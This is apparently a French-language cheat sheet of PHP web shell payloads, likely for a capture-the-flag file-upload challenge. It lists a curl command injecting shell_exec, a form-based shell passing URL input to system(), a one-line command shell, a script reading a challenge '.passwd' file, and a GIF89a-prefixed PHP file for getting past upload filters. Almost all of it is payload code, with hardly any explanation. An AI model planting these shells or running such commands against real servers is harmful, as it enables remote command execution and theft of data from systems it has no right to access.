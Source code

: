 # WebShell

curl -k -i -X POST http://....  -d “env=a; print shell_exec('id');”



===============================
ou 
===============================



<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if($_GET['cmd'])
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>


================================
ou
================================


<?php echo system($_GET['cmd']); ?>

================================
ou
================================

<html>
    <head>
        <title>Solution Double extension</title>
    </head>
    <body>
    <?php
        // Ouverture du fichier
        $monfichier = fopen('/challenge/web-serveur/ch20/.passwd', 'r');

        // Lecture du fichier
        $ligne = fgets($monfichier);

        echo '<p>Le code est : </p>';
        echo $ligne; 

        // Fermeture du fichier
        fclose($monfichier);
    ?>
    </body>
    </html>
 
================================
ou
================================
AVEC extension GIF:
GIF89a;
<?php 
phpinfo(); 
?>


================================
ou
================================

<?php
echo system('whoami');
?>

================================
ou
================================

<?php
echo shell_exec('whoami');
?>






